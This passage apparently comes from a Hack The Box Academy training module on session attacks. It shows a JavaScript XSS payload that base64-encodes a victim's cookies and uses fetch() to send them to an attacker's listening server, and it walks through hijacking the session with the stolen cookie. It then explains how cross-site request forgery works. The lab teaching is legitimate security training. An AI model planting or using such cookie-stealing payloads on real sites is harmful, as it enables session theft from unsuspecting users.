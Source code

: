 By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>

```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).


# Cross-Site Request Forgery (CSRF or XSRF)

* * *

Cross-site requests are common in web applications and are used for multiple legitimate purposes.

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with, leveraging the lack of anti-CSRF security mechanisms. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf. CSRF attacks generally target functions that cause a state change on the server but can also be used to access sensitive data.

A successful CSRF attack can compromise end-user data and operations when it targets a regular user. If the targeted end-user is an administrative one, a CSRF attack can compromise the entire web application.

During CSRF attacks, the attacker does not need to read the server's response to the malicious cross-site request. This means that [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) cannot be considered a security mechanism against CSRF attacks.

**Reminder**: According to Mozilla, the same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. The same-origin policy will not allow an attacker to read the server's response to a malicious cross-site request.
